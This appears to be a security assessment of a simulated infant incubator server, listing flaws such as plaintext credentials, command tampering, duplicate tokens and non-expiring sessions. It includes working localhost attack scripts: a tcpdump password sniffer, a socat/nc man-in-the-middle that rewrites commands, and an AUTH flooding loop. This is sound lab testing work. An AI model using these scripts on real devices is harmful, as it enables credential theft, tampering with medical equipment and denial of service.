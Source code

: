 # Infant Incubator Simulator: Vulnerabilities Description

## Exposure of Logon Password and Token: Loss of Confidentiality and Availability

The socket sendto call within the ``authenticate`` function: ``s.sendto(b"AUTH %s" % pw, ("127.0.0.1", p))`` submits the password alongside the AUTH command in plaintext. This risk has not been mitigated as no means of encryption can be found at the transport (eg. TLS) or network (eg. IPSec) layers. Using this information, we craft a test case in which traffic captured by tcpdump on ports 23456 and 23457 from the loopback interface is parsed using awk and packets containing the plaintext password are writtened to ``discovered.txt``. An attacker may simply intercept the credentials submitted as part of the authentication process, attempt logon themselves, and then issue (potentially dangerous) commands to the server using a valid token conferred to them.

Or, an attacker may sniff the token over the wire after authentication has taken place and use it to issue unauthorized commands against the unwitting user. In fact, the plaintext token may also be used to conduct a denial-of-service attack if it is sniffed and submitted alongside a LOGOUT request to the server each time.

```
sudo tcpdump -i lo -nnX dst port '(23456 or 23457)' | awk '{ if (/!Q#E%T&U8i6y4r2/ || /AUTH/ || /.*0x0030:.*/) { print > "discovered.txt" } else { print > "not-found.txt" } }' &
sleep 30

if grep -q "!Q#E%T&U8i6y4r2" discovered.txt; then
    echo plaintext password found
else
    echo plaintext password not found
fi
```

## Replay Attack

Although encryption and hashing may prevent an attacker from learning meaningful information from packet traffic or passing modified content as genuine, they do not prevent the replay of captured traffic. 

## Modification of Commands/Issuance of Unauthorized Commands: Loss of Integrity

A client may issue a command alongside the token conferred upon them to the server, but since the command is neither encrypted nor checked for truthfulness, it may be seamlessly interchanged by an attacker without detection. Therefore, an innocuous command like: 

``s.sendto(b"%s;GET_TEMP" % tok, ("127.0.0.1", p))``

may arrive to the server as:

``([A-Za-z0-9]{16});UPDATE_TEMP``

We devised the following scenario in which a socat server proxies the connection between the user and SampleNetworkServer, rewriting the "GET_TEMP" command to "UPDATE_TEMP," and vice versa:

```
sudo apt-get install socat
kill -9 $(sudo lsof -t -i:23456)
kill -9 $(sudo lsof -t -i:5557)
sleep 3 #allot time for termination of above processes 

python3 SampleNetworkServer.py & #start server in the background
sleep 1
socat -u tcp-l:5557,fork system:./test.sh | nc -u 127.0.0.1 23456 & #start socat with script that rewrites commands; modified commands are piped to port 23456
sleep 1
token="$(echo "AUTH !Q#E%T&U8i6y4r2w" | nc -w 3 -u 127.0.0.1 23456)" #terminate netcat after three seconds
echo "the token: ${token}"
sleep 1
echo "issuing UPDATE_TEMP command to server..."
UPDATE_CMD="${token};UPDATE_TEMP"
echo "full command: ${UPDATE_CMD}"
echo "${UPDATE_CMD}" | nc -w 3 127.0.0.1 5557
```

The success of the attack rests on commands being transmitted in plaintext and the absence of a mechanism to verify that the intended command was not modified in-transit.

## "So you think you have signed out...": Lack of Identity

The current prototype uses a password and 16-character psuedorandom token with character set (^[A-Za-z0-9]{16}$) for its authentication processes. However, it does not have means for managing the identity of those successful logon attempts. This is less of an issue if we assume that only one nurse at a hospital should monitor the incubator and know the password. However, nurses are spread across a myriad of responsibilities and rotate shifts, thus multiple nurses will need to access the remote interface. Should any of the nurses pose an insider threat, the organization has the ability to attribute/account for the damages.

## Duplicate Tokens

Although there is an infinitesimal chance of distributing a token which already exists in the list ``tokens[]`` given the sample space of (26 capital letters + 26 lowercase letters + 10 digits)^16, there is no mechanism to prevent that situation from occurring. Therefore, a check for whether a psuedorandomly generated token exists in ``tokens[]`` before appending it to the list should be implemented--if it does, generate a new one.

**The problem**

Eve intercepts an ``AUTH`` communication by Alice to the ``SampleNetworkServer`` and discovers the command ``AUTH !Q#E%T&U8i6y4r2w`` in the application layer of the captured packets. We assume that the packets are unencrypted. Using this information, we craft a test case which generates and submits a fast and continuous stream of authentication requests to ``SampleNetworkServer``. Performed at scale, this attack could lead to token exhaustion (if unique tokens in ``tokens[]`` is enforced), duplicate tokens in ``tokens[]``, or eventually, a program crash due to system resource exhaustion. _If duplicate tokens exist, a user that performs a LOGOUT operation using their token has not invalidated their token until they have perform the LOGOUT operations for the number of token occurences_.

```
#!/usr/bin/bash

while :
do
	echo "AUTH !Q#E%T&U8i6y4r2w" | nc -u 127.0.0.1 23456 &
	printf "\n"
	sleep 1
	pid=$!
	( kill -TERM $pid ) 2>&1
done
```

## Excess Functionality: addInfant()

## Session Expiry

Unless the SampleNetworkServer is restarted, all previously issued access tokens are valid until the user explicitly invalidates them by issuing the LOGOUT command along with their access token(s). However, a nurse may forget or refuse to log out of the system at the conclusion of their shift. This results in a lack of forward secrecy as an attacker who has learned of a token from _X_ days/months/years ago may leverage it indefinitely.
